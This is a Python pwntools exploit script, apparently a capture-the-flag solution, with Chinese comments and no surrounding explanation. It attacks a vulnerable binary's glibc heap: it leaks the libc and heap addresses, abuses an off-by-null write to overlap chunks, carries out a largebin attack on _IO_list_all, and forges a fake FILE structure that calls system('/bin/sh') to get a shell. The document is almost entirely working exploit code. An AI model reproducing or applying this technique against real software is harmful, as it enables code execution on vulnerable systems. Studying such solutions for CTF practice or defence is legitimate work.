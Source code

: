 ```python
# 间隔free，申请到中间的chunk，利用largebin粘上地址
dele(0)
dele(2)
dele(4)

add(0x700)# 7
dele(4)
add(0x608)# 8
add(0x5f8)# 9

show(9)
libc_base = uu64()-0x3ec161
lg('libc_base')

show(8)
p.recvuntil("\n")
heap_base = u64(p.recvuntil('\n')[-7:-1].ljust(8,'\x00'))-0x261
lg('heap_base')
#--------------------------------------------------------------------
IO_list_all = libc_base + libc.sym['_IO_list_all']
free_hook=libc_base+libc.sym['__free_hook']
system=libc_base+libc.sym['system']
bin_sh = libc_base + libc.search('/bin/sh\x00').next()
IO_str_jumps = libc_base+0x3e8360
lg('IO_list_all')
#--------------------------------------------------------------------
add(0x618)# 10
# offbynull向前合并，构造堆复用

dele(1)
edit(8,'b'*0x600+p64(0xC10))
dele(3)

# 申请回来，构造largebinattack，利用堆复用改bksize
add(0x5f8)# 11
add(0x608)# 12
add(0x5f8)# 13
dele(12)
add(0x700)# 14

edit(8,p64(libc_base+0x3ec110)*2+p64(heap_base+0xe50)+p64(IO_list_all-0x20))
dele(9)
add(0x700)# 15
add(0x5f8)# 16
edit(8,p64(libc_base+0x3ec110)*2+p64(heap_base+0xe50)*2)
add(0x608)# 17

def FILE(binsh,system,IO_str_jumps):
    fake_IO_FILE  = p64(0xfbad1800) + p64(0)*3
    fake_IO_FILE += p64(0) + p64(1) # fp->_IO_write_ptr > fp->_IO_write_base
    fake_IO_FILE += p64(0) + p64(binsh)
    fake_IO_FILE = fake_IO_FILE.ljust(0xC0,'\x00')
    fake_IO_FILE += p64(0) + p64(0)*2   # _mode <= 0
    fake_IO_FILE += p64(IO_str_jumps-8)
    fake_IO_FILE += p64(0) + p64(system)# 0xe8
    return fake_IO_FILE

fake_IO = FILE(bin_sh,system,IO_str_jumps)

edit(8,fake_IO[0x10:])
sla("Five: Finished!",5)

p.interactive()
```